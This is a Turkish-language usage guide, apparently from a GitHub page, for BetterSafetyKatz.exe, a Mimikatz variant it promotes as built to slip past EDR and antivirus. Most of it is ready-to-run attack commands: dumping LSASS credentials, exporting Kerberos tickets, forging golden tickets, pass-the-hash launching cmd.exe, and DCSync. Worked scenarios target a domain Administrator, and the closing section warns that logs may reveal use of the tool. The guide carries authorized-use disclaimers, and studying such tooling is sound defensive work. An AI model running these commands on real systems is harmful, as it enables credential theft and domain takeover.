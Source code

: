 # BetterSafetyKatz.exe Kullanım Rehberi

## BetterSafetyKatz.exe Nedir?

**BetterSafetyKatz.exe**, Mimikatz'ın gelişmiş ve özelleştirilmiş bir sürümüdür. Siber güvenlik uzmanları tarafından özellikle Endpoint Detection and Response (EDR) ve antivirüs sistemlerini atlatmak amacıyla tasarlanmıştır. Daha az algılanabilir olması, güvenlik testi ortamlarında kullanımı kolaylaştırır.

> **Önemli Not:** Bu araç yalnızca etik güvenlik testlerinde veya yetkili sistemlerde kullanılmalıdır. Yetkisiz kullanım yasa dışıdır ve ciddi sonuçlara yol açabilir.

---

## Ana Özellikleri

1. **Kimlik Bilgileri Çıkarma:**
   - LSASS belleğinden parolalar ve hash bilgileri çıkarır.
2. **Kerberos İşlemleri:**
   - Kerberos biletlerini döker ve manipüle eder.
3. **EDR ve Antivirüs Atlatma:**
   - İmzaları ve davranış tabanlı algılamayı minimize eder.
4. **Altın ve Gümüş Bilet Üretimi:**
   - Active Directory ortamlarında erişim için sahte biletler oluşturur.
5. **Kolay Kullanım:**
   - Komut satırı aracılığıyla basit ve esnek bir kullanım sunar.

---

## İndirme ve Çalıştırma

BetterSafetyKatz açık kaynak değildir. Farklı güvenlik topluluklarında özel erişim gerektirebilir.

1. **Dosyayı Hazırlayın:**
   BetterSafetyKatz.exe’yi sisteminize alın ve bir test ortamında çalıştırın.

2. **PowerShell veya CMD Üzerinden Çalıştırma:**
   ```cmd
   BetterSafetyKatz.exe
   ```

---

## Kullanım Parametreleri

Aşağıda BetterSafetyKatz.exe’nin yaygın kullanılan komutları açıklanmıştır:

### 1. **`privilege::debug`**
- Debug ayrıcalıklarını yükseltmek için kullanılır.

  **Kullanım:**
  ```cmd
  privilege::debug
  ```

### 2. **`sekurlsa::logonpasswords`**
- LSASS belleğindeki oturum bilgilerini görüntüler.

  **Kullanım:**
  ```cmd
  sekurlsa::logonpasswords
  ```

### 3. **`kerberos::list`**
- Kerberos biletlerini listeler ve dışa aktarır.

  **Kullanım:**
  ```cmd
  kerberos::list /export
  ```

### 4. **`kerberos::golden`**
- Altın Bilet oluşturur.

  **Kullanım:**
  ```cmd
  kerberos::golden /user:<username> /domain:<domainname> /sid:<domain_SID> /krbtgt:<krbtgt_hash> /id:<RID>
  ```

### 5. **`sekurlsa::pth`**
- Pass-the-Hash saldırıları için kullanılır.

  **Kullanım:**
  ```cmd
  sekurlsa::pth /user:<username> /domain:<domainname> /ntlm:<hash> /run:<command>
  ```

### 6. **`lsadump::dcsync`**
- Domain Controller’dan kimlik bilgilerini çeker.

  **Kullanım:**
  ```cmd
  lsadump::dcsync /user:<username>
  ```

### 7. **`misc::cmd`**
- Sistem üzerinde komut çalıştırır.

  **Kullanım:**
  ```cmd
  misc::cmd
  ```

### 8. **`exit`**
- BetterSafetyKatz oturumundan çıkış yapar.

  **Kullanım:**
  ```cmd
  exit
  ```

---

## Örnek Kullanım Senaryoları

### 1. Oturum Açma Bilgilerini Görüntüleme
```cmd
privilege::debug
sekurlsa::logonpasswords
```

### 2. Pass-the-Hash Saldırısı
```cmd
sekurlsa::pth /user:Administrator /domain:example.com /ntlm:<hash> /run:cmd.exe
```

### 3. Altın Bilet Üretimi
```cmd
kerberos::golden /user:Administrator /domain:example.com /sid:S-1-5-21-1234567890 /krbtgt:<krbtgt_hash> /id:500
```

---

## Güvenlik ve Önlemler

- **Yetkili Kullanıcılar:** BetterSafetyKatz yalnızca Active Directory yöneticileri veya güvenlik araştırmacıları tarafından kullanılmalıdır.
- **Test Ortamı:** Araç, üretim ortamlarında çalıştırılmadan önce test edilmelidir.
- **Loglama:** Sistem logları araç kullanımını tespit edebilir, bu nedenle dikkatli olunmalıdır.

---

## Kaynaklar

- BetterSafetyKatz hakkında daha fazla bilgi için güvenlik topluluklarına başvurun.
- Mimikatz dökümantasyonu için:
  - [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

---

> **Uyarı:** Bu rehber yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.
